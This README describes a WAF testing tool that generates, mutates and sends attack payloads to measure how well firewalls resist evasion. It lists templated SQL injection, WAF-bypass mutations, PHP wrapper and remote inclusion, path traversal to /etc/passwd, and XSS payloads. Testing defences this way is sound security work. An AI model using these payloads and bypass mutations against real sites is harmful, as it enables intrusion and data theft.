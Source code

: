 WAF Testing Tool
================

When one finds a vulnerability in source code of a web application using white box approach one of the challenges that may arise is to bypass a web application firewall. Speaking about bypass methods, it is important for a web application firewall not only to have an extensive list of signatures that can block the vast majority of attacks but also to be immune to various evasion techniques by properly normalizing input data. For the sake of comprehensive web application firewall testing it is not enough just to use web application vulnerability scanner. 

The proposed methodology makes use of attack payloads that are mutated in various ways. It allows to test web application firewalls more thoroughly.

You can see evalutaion results for mod_security with Core Rule Set (as of 28.02.2012) in [mod_security.txt](mod_security.txt)

The picture below demonstrates architecture of an application that had been developed to test and evaluate effectiveness of web application firewalls.

![architecture](http://i.imgur.com/myTosWE.png)

The main components of the application are:

- module that generates base payloads
- module that mutates payloads
- HTTP request sending module
- detection module

Base payload generation module loads patterns and generates a set of attack vectors.

Base payload is a vector that exploits a vulnerability in source code of a web application and which can be tracked in detector module depending on the result of exploitation. For example, for an SQL Injection successful exploitation can be confirmed by an SQL query structure modification.

Base payload pattern looks like as follows:

```
1 union {|all }select {version()|1|'AA'}, {database()|(select 1)|2} from {|dual|information_schema.tables}
```

All possible combinations of the base payload are generated, after that this set is passed to mutation module.

Examples of base payloads:

```
1 union select version(), 2 from dual 
1 union all select 'AA', (select 1) from information_schema.tables 
1 union select 1, 2
```

Mutation is a modification of the base payload which is aimed at bypassing data normalization routines implemented in web application firewall. Mutation should modify the base payload to be completely different however it should remain effective at the same time. Mutation module receives a set of generated base payloads and loads from the database mutation techniques specific for the particular vulnerability type. Each mutation has its subtype so that mutation module was able to operate with mutually exclusive mutation techniques. The list of mutation techniques was compiled using widely known WAF bypass techniques as well as methods based on our own experience.

After all mutations are generated the output set is passed to request sender.

Examples of mutations for SQL Injection:

- character case modification
- replacement of whitespace characters with its analogues
- replacement of operators with its analogues
- SQL query modification with the use of complex structures specific for particular RDBMS

As a result, for each base payload the following combinations could be generated:

```
1 union select version(), 2 from dual 
1%0BUnIoN%0BsElEcT%0BvErSiOn(),%0B2%0BfRoM%0BdUaL 
1 /*!12345UNION ALL SELECT VERSION(), 2 FROM*/ DUAL 
1--%0Aunion--%0Aselect--%0A@@`version`,--%0A3-1--%0Afrom--%0Adual
```

Overall number of mutations is over 50.
Overall number of mutation combinations of base payloads depending on the type of vulnerability varies from 1000 to 40000.

Request sender forms HTTP requests and transports them to the target web application through WAF. It also sends responses from the application to the detection module. HTTP requests are formed in such a way so that they could cover all attack vector channels such as urlencoded POST data, multipart, parameter names, etc. Attack vectors are injected into:

- GET, POST, Cookie parameters
- GET, POST, Cookie array indeces
- HTTP headers
- Contents, Content-Type and filename of uploaded file

Overall number of attack requests is about 500000.

Detection module processes responses that were received from request sender module. Finally, it makes decision and adds it to the final report.

Base payloads that are used:

```
1 union select {version()|1111111111|'AAAAAAAA'}, {222222222|database()|(select user())|'BBBBBBBBBBBBB'} {|from information_schema.tables} 

1 and {1=1|99=99|98{!=|<>}97} 

(-1)union(select({1|load_file('/etc/passwd')}),{(2)|(id)from(news)|(user)from(mysql.user){|having(user)like('root')}}) 

1 union select * from (select 11)a join (select {22|user from mysql.user})b {|into {outfile|dumpfile} '/blah/blah/testfilename'} 

(select*from(select name_const('123',1),name_const('123',1))a) 

ExtractValue(1,concat(0x5c,'123')) 

(select count(*) from {mysql.user|information_schema.tables|news|(select 1 union select 2 union select 3)x} group by concat('123',floor(rand(0)*2))) 

(@:=1)||@ group by concat('123',@:=@-1)having @||min(@:=0) 

1 into {outfile|dumpfile} '/blah/blah/blahfilenameblah' lines terminated by 'payload' 

data:,<?php echo 123; ?> 

php://input 
 
php://filter{|/blah/blah/blah}/{zlib.deflate|read=zlib.deflate|convert.base64-encode|read=convert.base64-encode|read}{|/blah/blah/blah}/resource=longfilenameindexblah{|.php|.txt|.png} 

{http{|s}://|ftp://username:password@}site.com/{|folder1/|folder2/folder3/}filenameblah{.php|.txt|.gif} 

{|file://}{/../../../../../..}{/aaaaaaaaaaaaaaaaaaaa/../../../../../..|..........................................................................|././././././././././././././././././././././././././././.}{/etc/{passwd|hosts}|/proc/version} 

{|file://}{/../../../../../..}{/aaaaaaaaaaaaaaaaaaaa/../../../../../..|..........................................................................|././././././././././././././././././././././././././././.}/boo{t.ini|<<|>>>>} 

<script blah>123</script blah> 

<script blah src="{http{:|://}site.com/blah|data:,123}" blah>blah</script blah> 

<{a|abbr|acronym|address|applet|area|b|base|basefont|bdo|big|blockquote|body|br|button|caption|center|cite|code|col|colgroup|dd|del|dfn|dir|div|dl|dt|em|fieldset|font|form|frame|frameset|head|h1|h2|h3|h4|h5|h6|hr|html|i|iframe|img|input|ins|kbd|label|legend|li|link|map|menu|meta|noframes|noscript|object|ol|optgroup|option|p|param|pre|q|s|samp|script|select|small|span|strike|strong|style|sub|sup|table|tbody|td|textarea|tfoot|th|thead|title|tr|tt|u|ul|var} blah {onload|onunload|onblur|onchange|onfocus|onreset|onselect|onsubmit|onabort|onkeydown|onkeypress|onkeyup|onclick|ondblclick|onmousedown|onmousemove|onmouseout|onmouseover|onmouseup}=123 blah> 

<a href="{javascript:123|data:,123}">test</a> 

+ADw-script+AD4-123+ADw-/script+AD4-
```
